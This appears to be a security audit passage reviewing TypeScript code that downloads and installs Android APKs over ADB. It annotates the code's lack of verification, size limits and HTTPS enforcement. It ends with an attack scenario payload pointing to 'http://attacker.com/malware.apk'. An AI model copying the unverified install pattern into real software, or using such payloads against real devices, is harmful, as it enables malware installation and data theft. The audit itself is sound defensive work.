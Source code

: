 ```typescript
    // 2. Installs via ADB
    await this.adbService.installApk(event.deviceId, apkPath);  // ⚠️ No APK verification

    // 3. Cleanup
    await fs.unlink(apkPath);

    // 4. Success event
    await this.devicesService.publishAppInstallCompleted({ /* ... */ });
  } catch (error) {
    // Error handling
  }
}

// Line 214-243: Insecure download implementation
private async downloadApk(url: string, appId: string): Promise<string> {
  const tmpDir = "/tmp/cloudphone-apks";
  await fs.mkdir(tmpDir, { recursive: true });

  const filePath = path.join(tmpDir, `${appId}-${Date.now()}.apk`);
  const file = await fs.open(filePath, "w");

  return new Promise((resolve, reject) => {
    const protocol = url.startsWith("https") ? https : http;  // ⚠️ Allows HTTP

    protocol
      .get(url, (response) => {  // ⚠️ No size limit, no timeout, no integrity check
        const stream = response.pipe(file.createWriteStream());

        stream.on("finish", () => {
          file.close();
          resolve(filePath);  // ⚠️ Returns path without verification
        });

        stream.on("error", (error) => {
          fs.unlink(filePath).catch(() => {});
          reject(error);
        });
      })
      .on("error", (error) => {
        fs.unlink(filePath).catch(() => {});
        reject(error);
      });
  });
}
```

#### Attack Scenarios

**Scenario 1: Malware Installation via URL Manipulation**
```javascript
// Attacker manipulates app-service to return malicious URL
{
  "appId": "legitimate-app-123",
  "downloadUrl": "http://attacker.com/malware.apk"  // Malicious URL
}

// Device service downloads and installs malware without verification
// Malware gains access to device data, can exfiltrate information
```
